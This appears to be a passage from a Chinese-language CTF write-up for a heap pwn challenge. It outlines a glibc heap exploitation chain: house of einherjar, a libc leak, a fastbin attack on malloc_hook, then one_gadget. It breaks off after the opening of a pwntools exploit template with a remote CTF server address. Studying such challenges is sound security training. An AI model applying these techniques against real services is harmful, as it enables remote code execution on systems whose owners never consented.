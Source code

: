 unsoted bin split

fastbin attack

realloc_hook to ajust stack

one_gadget

## 思路

通过house of einherjar实现堆合并转移,然后通过unsorted bin特性分割堆块,打印获取main_arena + 88地址,通过fastbin attack 打入 malloc_hook - 0x23处,通过 malloc_hook来实现Onegaget,realloc_hook调整execve第二个参数



## 利用

### 准备

```python
#!/usr/bin/env python
#-*- coding:utf-8 -*-

# Author: I0gan

from pwn import *
#from LibcSearcher import LibcSearcher

#context.log_level='debug'
#context.terminal = ['konsole', '-x', 'bash', 'c']
#context.terminal = 'konsole'

#context(arch = 'i386', os = 'linux', log_level='debug')
context(arch = 'amd64', os = 'linux', log_level='debug')

exeFile  = "pwn"
libFile  = "./libc.so.6"
#libFile  = "/lib/x86_64-linux-gnu/libc.so.6"

remoteIp = "39.97.119.22"
remotePort = 10002

LOCAL = 0
LIB   = 1

r   =  lambda x : io.recv(x)
ra  =  lambda   : io.recvall()
rl  =  lambda   : io.recvline(keepends = True)
ru  =  lambda x : io.recvuntil(x, drop = True)
sl  =  lambda x : io.sendline(x)
sa  =  lambda x, y : io.sendafter(x, y)
sla =  lambda x, y : io.sendlineafter(x, y)
ia  =  lambda : io.interactive()
c   =  lambda : io.close()
pd32  = lambda x : p32(x).decode() #python3 not surport str + bytes
pd64  = lambda x : p64(x).decode()
li    = lambda x : log.info(x)
db    = lambda   : gdb.attach(io)

#--------------------------Func-----------------------------
def ad(size, text):
	sla('>>', str(1))
	sla('???', str(size))
	sa(':>', text)

```